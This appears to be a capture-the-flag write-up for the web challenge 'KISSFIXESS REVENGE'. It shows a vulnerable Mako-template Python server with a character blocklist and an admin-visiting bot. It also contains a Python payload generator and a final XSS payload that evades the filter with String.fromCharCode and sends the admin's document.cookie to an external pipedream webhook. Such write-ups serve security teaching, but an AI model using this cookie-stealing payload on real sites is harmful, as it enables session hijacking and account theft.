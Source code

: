 # 🏷️ KISSFIXESS REVENGE

**Category:** Web  
**Description:**  
> Okay, NOW ain't nobody gonna solve it.

For the revenge challenge there is not much changed but, but filtering got harder to bypass let's dig deeper.


This is the new app.py


```py
lookup = TemplateLookup(directories=[os.path.dirname(__file__)], module_directory=MODULE_DIR)

banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "&", "%", "^", "#", "@", "!", "*", "-", "import", "eval", "exec", "os", ";", ",", "|", "JAVASCRIPT", "window", "atob", "btoa", "="]


def escape_html(text):
    """Escapes HTML special characters in the given text."""
    return text.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("(", "&#40;").replace(")", "&#41;")

def render_page(name_to_display=None):
    """Renders the HTML page with the given name."""
    templ = html_template.replace("NAME", name_to_display or "")
    template = Template(templ, lookup=lookup)
    tp = template.render(name_to_display=name_to_display, banned="&<>()", copyright="haha", help="haha", quit="haha")
    try:
        tp_data = tp.split("<div class=\"rainbow-text\">")[1].split("</div>")[0]
        if "." in tp_data or "href" in tp_data.lower():
            name = "Banned characters detected!"
            return name
    except IndexError:
        name = "Something went wrong!"
        return name

    return tp

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):

        # Parse the path and extract query parameters
        parsed_url = urlparse(self.path)
        params = parse_qs(parsed_url.query)
        name = params.get("name_input", [""])[0]
        
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)

        # Render and return the page
        self.send_response(200)
        self.send_header("Content-Type", "text/html")
        self.end_headers()
        self.wfile.write(render_page(name_to_display=name).encode("utf-8"))
    
    def do_POST(self):
        # Handle POST requests to report names
        if self.path == "/report":
            content_length = int(self.headers['Content-Length'])
            post_data = self.rfile.read(content_length)
            name = json.loads(post_data.decode('utf-8')).get("name", "")
            print(f"Received name: {name}")
            if name:
                print(f"Reported name: {name}")
                self.send_response(200)
                self.end_headers()
                self.wfile.write(b"Name reported successfully!")
                Thread(target=visit_url, args=(name,)).start()
            else:
                self.send_response(400)
                self.end_headers()
                self.wfile.write(b"Bad Request: No name provided.")
        else:
            self.send_response(404)
            self.end_headers()

def run_server(server_class=HTTPServer, handler_class=SimpleHTTPRequestHandler, port=8000):
    server_address = ("0.0.0.0", port)
    httpd = server_class(server_address, handler_class)
    print(f"Starting http server on port {port}...")
    print(f"Access the page at http://0.0.0.0:{port}")
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        print("\nServer stopped.")
    finally:
        httpd.server_close()

if __name__ == "__main__":
    run_server()
```

As we can see now can't use the html encoding since # is blocked and it's not in the banned list.
What we can do is injecting script tag then use String.fromCharCode to decode that banned characters.

<br />


```py
def create_map(banned):
    return {
        "<": f"${{banned[1]}}",  
        ">": f"${{banned[2]}}",  
        "(": f"${{banned[3]}}",  
        ")": f"${{banned[4]}}",  
        "s": f"'+String['fromCharCode']${{banned[3]}}115${{banned[4]}}+'", 
        "l": f"'+String['fromCharCode']${{banned[3]}}108${{banned[4]}}+'",
        ".": f"'+String['fromCharCode']${{banned[3]}}46${{banned[4]}}+'",  
        "=": f"'+String['fromCharCode']${{banned[3]}}61${{banned[4]}}+'"  
    }

def encode_payload(payload, banned):
    mappings = create_map(banned)
    final_payload = ""
    for i in payload:
        final_payload += mappings.get(i, i)
    return final_payload

def wrap_payload(encoded_payload, banned):
    return f"${{banned[1]}}Script${{banned[2]}}{encoded_payload}${{banned[1]}}/Script${{banned[2]}}"

def generate_payload(payload, banned):
    encoded = encode_payload(payload, banned)
    return wrap_payload(encoded, banned)

banned = ["<", ">", "s", "l", "(", ")", "self", "_", ".", "\"", "\\", "&", "%", "^", "#", "@", "!", "*", "-", "import", "eval", "exec", "os", ";", ",", "|", "JAVASCRIPT", "window", "atob", "btoa", "="]

payload = "fetch('http://webhook/?q='+document['cookie'])"

final_payload = generate_payload(payload, banned)
print(final_payload)

```

<br />

Final payload:

```
${banned[1]}Script${banned[2]}fetch${banned[3]}'http'+String['fromCharCode']${banned[3]}115${banned[4]}+'://eogce8tgujfgk5f'+String['fromCharCode']${banned[3]}46${banned[4]}+'m'+String['fromCharCode']${banned[3]}46${banned[4]}+'pipedream'+String['fromCharCode']${banned[3]}46${banned[4]}+'net/?q'+String['fromCharCode']${banned[3]}61${banned[4]}+''+document['cookie']${banned[4]}${banned[1]}/Script${banned[2]}
```

reporting to admin

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/10.png'>

<br />

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/11.png'>

<br />


<img src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/ez-yann.gif" alt="Skeleton GIF" width="300" height="300">
